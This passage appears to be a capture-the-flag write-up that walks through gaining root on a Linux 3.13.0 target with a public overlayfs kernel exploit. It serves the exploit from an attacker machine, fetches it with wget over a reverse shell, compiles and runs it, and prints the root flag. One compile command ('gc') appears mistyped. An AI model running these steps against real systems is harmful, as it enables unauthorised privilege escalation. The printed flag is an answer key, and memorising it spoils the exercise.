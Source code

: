 <pre>3.13.0-32-generic</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What development tools are installed on the machine?
### What is the root flag?

Download the [Linux Kernel 3.13.0 exploit](https://www.exploit-db.com/exploits/37292) on your machine. Before transferring the exploit to the target, you must edit the source file. The exploit normally contains a line such as:
```BASH
 lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
```  

Since gcc is not available on the server but cc is, change this line to:
```BASH
 lib = system("cc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
```

Start a Python HTTP server on your attacker machine:
```BASH
python3 -m http.server 8000
```

On the target machine (using your reverse shell), download the exploit:
```BASH
wget http://10.10.166.60:8000/37292.c
```
![image-28](https://github.com/user-attachments/assets/fe509857-15fb-4e53-acfc-fe3a64cec80b)


Compile and run the exploit on the target:
```BASH
gc 37292.c -o lpe
./lpe
```
![image-29](https://github.com/user-attachments/assets/b2b5260a-7d94-49d9-b578-2f74b9483b78)


Once the exploit runs, change directory to root:  

![image-30](https://github.com/user-attachments/assets/6b0b62e0-d659-41e3-a506-fed6717937f5)


<pre>568628e0d993b1973adc718237da6e93</pre>
